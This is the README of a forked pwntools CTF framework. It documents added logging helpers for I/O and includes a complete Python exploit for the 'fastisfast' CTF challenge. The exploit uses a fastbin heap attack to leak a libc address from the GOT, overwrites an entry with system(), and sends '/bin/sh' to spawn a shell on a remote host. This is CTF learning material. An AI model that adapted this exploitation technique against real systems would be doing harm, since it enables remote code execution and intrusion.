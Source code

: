 # Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.



`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):

        raw_input('\33[1;31;40m[+] Debug: Attach GDB.\33[0m')

    def Log(self,String):

        print '\33[1;31;40m'+'[+] '+ String+'\33[0m'

    def LogRecvUntil(self,String):

        print self.recvuntil(String)

    def LogRecvNoBlocking(self):

        print self.recv()

    def LogRecv(self,Len):

        Data = self.recv(Len)

        print Data

        return Data

    def LogSend(self,Data):

        print Data

        self.send(Data)

    def LogSendAndRecv(self,Data):

        print Data

        self.send(Data)

        print self.recv()

```



# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()
```

![example](./example.png)

